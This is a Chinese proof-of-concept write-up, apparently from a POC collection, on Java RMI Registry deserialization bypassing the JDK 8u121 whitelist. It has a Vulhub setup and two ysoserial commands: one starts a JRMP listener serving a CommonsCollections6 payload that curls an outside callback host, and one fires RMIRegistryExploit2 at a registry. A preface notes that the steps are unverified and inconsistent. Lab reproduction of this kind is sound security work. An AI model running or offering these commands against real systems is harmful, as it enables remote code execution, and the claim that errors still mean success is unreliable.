

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：特定jdk8u232_b09；列8u121Registry白名单，需外连JRMP及CC3.2.1

代码与实验材料：第三方ysoserial fork RMIRegistryExploit2/3，展示监听+触发两阶段但只给2实际命令

来源证据范围：0kami原理文章及wh1t3p1g工具fork

- **来源与引用处置（1）**：泛称错误无关而省略利用验证；依据：Registry报错可能来自很多原因；未文本展示回连/命令产物，不能一概报错也成功。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **实验改动边界（2）**：具体变体和运行参数缺映射；依据：称Exploit2或者3但不解释区别；bash块用//注释且目标固定内网、jar路径不一致。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Java RMI Registry 反序列化漏洞 (jdk8u232_b09)

## 漏洞描述

Java Remote Method Invocation 用于在 Java 中进行远程调用。RMI 存在远程 bind 的功能 (虽然大多数情况不允许远程 bind)，在 bind 过程中，伪造 Registry 接收到的序列化数据 (实现了 Remote 接口或动态代理了实现了 Remote 接口的对象)，使 Registry 在对数据进行反序列化时触发相应的利用链 (环境用的是 commons-collections:3.2.1).

自 jdk8u121 起，Registry 对反序列化的类做了白名单限制

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在上面的几个白名单里面找到相应的可利用的类 具体原理见 [浅谈RMI Registry反序列化问题](http://blog.0kami.cn/2020/02/06/rmi-registry-security-problem/)

## 环境搭建

Vulhub 执行如下命令编译及启动 RMI Registry 和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip` 是服务器 IP，客户端会根据这个 IP 来连接服务器。

环境启动后，RMI Registry 监听在 1099 端口。

## 漏洞复现

通过 [ysoserial](https://github.com/wh1t3p1g/ysoserial) 的 exploit 包中的 RMIRegistryExploit2 或者 3 进行攻击

```bash
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```



Registry 会返回报错，这个没关系正常，命令会正常执行。


---

> 来源：Threekiii/Awesome-POC
